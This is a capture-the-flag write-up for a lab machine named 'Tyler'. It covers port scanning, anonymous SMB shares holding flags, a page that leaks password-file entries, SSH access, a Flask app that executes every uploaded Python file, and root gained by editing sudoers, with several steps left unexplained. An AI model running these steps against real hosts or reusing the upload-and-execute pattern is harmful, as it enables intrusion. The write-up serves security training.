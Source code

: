 # Tyler

## Recon

### nmap

```
# sh recon.sh 10.10.172.202
Host is up.
Starting Nmap 7.80 ( https://nmap.org )
[...]
Not shown: 992 closed ports
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.4 (protocol 2.0)
80/tcp   open  http        Apache httpd 2.4.6 ((CentOS) PHP/7.3.16)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: SAMBA)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: SAMBA)
3306/tcp open  mysql       MariaDB (unauthorized)
5000/tcp open  http        Werkzeug httpd 1.0.0 (Python 3.6.8)
8080/tcp open  http        nginx 1.16.1
9999/tcp open  abyss?
Service Info: Host: TYLER

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 101.87 seconds
           Raw packets sent: 1103 (48.508KB) | Rcvd: 1022 (40.912KB)
```

### Gobuster

```
# gobuster dir -u 10.10.172.202 -w /usr/share/wordlists/rockyou.txt -x php,txt -t 100
===============================================================
/upload (Status: 301)
```

Looking at a regular gobuster, there's nothing useful. I uploaded php_reverse_shell.php but I couldn't find where it was uploaded.

## Finding flag.txt

```
# smbclient -N \\\\10.10.172.202\\public
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Wed Mar 25 17:09:50 2020
  ..                                  D        0  Wed Mar 25 17:02:28 2020
  flag.txt                            N       33  Wed Mar 25 17:08:05 2020
  alert.txt                           N       50  Wed Mar 25 17:09:50 2020

		13092864 blocks of size 1024. 8348236 blocks available
```

### flag.txt

```
# cat flag.txt 
2308b0cccea3f2a187a89a9f3155a3a4
```

### alert.txt

```
cat alert.txt 
Let's keep things interesting... X8JEETQmf3hkS65f
```

### dirsearch.py

```
git clone https://github.com/maurosoria/dirsearch.git
cd dirsearch
./dirsearch.py -u http://tyler.thm/ -w /usr/share/wordlists/rockyou.txt -e html,txt
/betatest/
```

From here we find something called checkuser.php. Typing in tdurden replies with:

```
tdurden:x:1000:1000::Tyler Durden:/home/tdurden/bin/bash tdurden:x:1000:1000:Tyler Durden:/home/tdurden:/bin/bash
```

Typing narrator gives us:

```
narrator:x:1002:1002::/home/narrator:/bin/bash narrator/:x:1002:1002::/home/narrator/:/bin/bash
```

## SSH

ssh into narrator

```
# ssh narrator@tyler.thm
narrator@tyler.thm's password: 
Last login: Thu Mar 26 10:52:23 2020 from cyberdyne
[narrator@tyler ~]$
```

### user.txt

```
cat user.txt 
991c65538b9afaf2494f4552b915c948
```

### app.py

```
#!/usr/bin/python3

import os
from flask import Flask, flash, request, redirect, render_template
from werkzeug.utils import secure_filename
UPLOAD_FOLDER = './uploads'

app = Flask(__name__)
app.secret_key = "secret key"
app.config['UPLOAD_FOLDER'] = UPLOAD_FOLDER
app.config['MAX_CONTENT_LENGTH'] = 16 * 1024 * 1024


ALLOWED_EXTENSIONS = set(['txt', 'pdf', 'png', 'jpg', 'jpeg', 'gif', 'py'])

def allowed_file(filename):
	return '.' in filename and filename.rsplit('.', 1)[1].lower() in ALLOWED_EXTENSIONS
	
@app.route('/')
def upload_form():
	return render_template('upload.html')

@app.route('/', methods=['POST'])
def upload_file():
	if request.method == 'POST':
        # check if the post request has the file part
		if 'file' not in request.files:
			flash('No file part')
			return redirect(request.url)
		file = request.files['file']
		if file.filename == '':
			flash('No file selected for uploading')
			return redirect(request.url)
		if file and allowed_file(file.filename):
			filename = secure_filename(file.filename)
			file.save(os.path.join(app.config['UPLOAD_FOLDER'], filename))
			os.system('/usr/bin/python3 ' + os.path.join(app.config['UPLOAD_FOLDER'], filename))
			flash('File successfully uploaded')
			return redirect('/')
		else:
			flash('Allowed file types are txt, pdf, png, jpg, jpeg, gif, py')
			return redirect(request.url)

if __name__ == "__main__":
    app.run(host='0.0.0.0')
```

### Privilege Escalation

```
[narrator@tyler ~]$ vim /etc/sudoers
```

From here, you add narrator to the sudoers file:

```
narrator	ALL=(ALL)	ALL
:wq!
```

After this, you type sudo -i to get to root.

## After root

```
vim /etc/ssh/sshd_config
```

Go to `PermitRootLogin` and change the parameter from `no` to `yes`.

```
:wq! # Save your work
```

